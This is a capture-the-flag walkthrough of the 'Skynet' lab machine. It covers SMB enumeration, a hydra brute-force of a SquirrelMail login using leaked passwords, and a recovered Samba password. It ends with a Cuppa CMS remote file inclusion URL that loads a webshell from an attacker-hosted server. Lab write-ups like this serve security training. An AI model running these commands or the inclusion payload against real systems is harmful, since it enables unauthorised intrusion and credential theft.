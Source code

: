 # Skynet

The first thing that we should do is network scanning through nmap:

```bash
nmap -sV 10.10.99.10
```

![Alt text](../Screenshots/Skynet/nmap.png)

Now we can see that there are samba shares. Then I ran enumeration tool for linux target machine:

```bash
enum4linux -a <target_ip>
```

Moreover there is a listed user shown in the following image named `milesdyson`:
![Alt text](../Screenshots/Skynet/users.png)

It gave me following share
![Alt text](../Screenshots/Skynet/shares.png)

Simaltaneously, I started directory enumeration and found the following results:
![Alt text](../Screenshots/Skynet/dir_enum.png)

And there is an interesting directory seems `squirrelmail`. I visited it and found:

![Alt text](../Screenshots/Skynet/squirrelmail_login.png)

We can get some useful information through shares so I tried to get into them using the command:

```bash
smbclient //<target_ip>/anonymous -N
```

Now go into logs directory where you will find 3 log files:
![Alt text](../Screenshots/Skynet/logs.png)
```bash
get log1.txt
```
Using above command you can transfer there log files into your attacking machine on the path from where you ran the above smbClient command. Inside `log1.txt` there are many passwords. Useranme we already know, now we should try to crack the password:
```bash
hydra -l milesdyson -P log1.txt <target_ip> http-post-form \
"/squirrelmail/src/redirect.php:login_username=^USER^&secretkey=^PASS^&js_autodetect_results=1&just_logged_in=1:Unknown user or password" \
-V -t 16
```
We found the password:
![Alt text](../Screenshots/Skynet/password_found_hydra.png)

Now we have username and password, so let's try it on `squirrelmail` directory. Yes!! we logged in successfully as you can see:

![Alt text](../Screenshots/Skynet/squirrelmail_login_home.png)

Now click on the first mail having subject **Samba password reset** and you will find the password:

![Alt text](../Screenshots/Skynet/password.png)

Subject shows that this is the password of samba shares. So let's try this password:

```bash
smbclient //<target_ip>/milesdyson -U 'WORKGROUP\\milesdyson%)s{A&2Z=F^n_E.B`'
```

Now go to `notes` directory and there you will find `important.txt` file. Download it using `get` command. Now read this file and you will find something like that:

![Alt text](../Screenshots/Skynet/hidden_directory.png)

I suspected that this can be a hidden directory written in the 1st line. I tried and was right, but found nothing interested there. But then I again did the directory enumeration:

![Alt text](../Screenshots/Skynet/hidden_dir_enum.png)

Interesting directory found named `administrator`. I went to it and found there is cuppa cms is running.

Now the next question was helpful which is asking about remote file inclusion. I google about remote file inclusion in cuppa cms and found an exploit in [exploit-db](https://www.exploit-db.com/exploits/25971).


By reading the exploit I understood if I host a webshell in my attacker machine, host it via python server then i can exploit the remote file inclusion vulnerability in the target system using the following link:

```
http://<target_ip>/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://<attacker_ip>:<attacker_port>/shell.txt&cmd=ls
```

